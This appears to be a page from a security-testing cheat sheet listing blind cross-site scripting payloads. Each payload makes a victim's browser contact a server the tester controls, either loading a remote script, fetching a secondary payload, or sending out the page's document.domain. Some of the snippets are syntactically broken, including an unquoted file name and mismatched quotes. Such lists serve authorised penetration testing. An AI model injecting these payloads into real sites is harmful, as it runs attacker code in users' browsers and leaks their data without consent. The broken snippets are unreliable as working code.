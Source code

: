 ##### Blind XSS payloads 

*Blind XSS payloads are designed to let you know when they are triggered through a request to a server you control*

**Simple payload**:

```
<script src=//yourdomain.com></script>
```

**With secondary payload (that you host)**:

```
<script>function b(){(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//yourdomain.burpcollaborator.net/" + morexss.txt);a.send();</script>
```
**Prove DOM access by sending document.domain**:

```
<script>a=new XMLHttpRequest();a.open("GET", "//yourdomain.burpcollaborator.net/" + document.domain);a.send();</script>
```

**Alternate with IMG tag**: 

```
<script>document.write("<img src='https://yourdomain.burpcollaborator.net/' + document.domain>")</script>
```


